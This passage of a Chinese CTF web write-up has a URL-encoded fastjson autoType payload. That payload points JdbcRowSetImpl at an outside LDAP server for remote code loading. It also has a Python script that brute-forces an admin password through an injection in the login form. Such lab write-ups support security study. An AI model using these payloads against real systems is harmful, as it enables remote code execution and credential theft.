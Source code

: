 写20遍就行。

存在`/tmp/i_want_flag`文件就可以得到flag。

fastjson打一下就行。1.2.42需要开autoTypeSupport属性为true才能使用，题目也给开了：

```java
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

```
http://eci-2zebzbef1a9ermcc1sjk.cloudeci1.ichunqiu.com:8888/?payload=%7B%22%40type%22%3A%22LLLLLLLLLLLLLLLLLLLLLLcom.sun.rowset.JdbcRowSetImpl%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%3B%22%2C%22dataSourceName%22%3A%22ldap%3A%2F%2F121.5.169.223%3A1389%2Fpq02uk%22%2C%20%22autoCommit%22%3Atrue%7D
```

![image-20220120170036651](2022-工大抗疫-Web.assets/image-20220120170036651.png)

![image-20220120170043117](2022-工大抗疫-Web.assets/image-20220120170043117.png)

# GrandTravel

SQL注入爆密码：

```python
import requests
import string
url="http://eci-2ze3pskpr9bsua77qxg7.cloudeci1.ichunqiu.com:8888/login"

"Adm1n_P0ssw0rd_a1w6346daw94d"
flag = ""
for i in range(1000):
    #for j in ""
    for j in string.printable:
        payload='"||(this["user"+"name"]=="admin"&&(this["pass"+"word"]))[{}]=="{}"||this["user"+"name"]=="feng"||"1"=="2'
        data={
            "username":payload.format(i,j),
            "password":1
        }

        r=requests.post(url=url,data=data)
```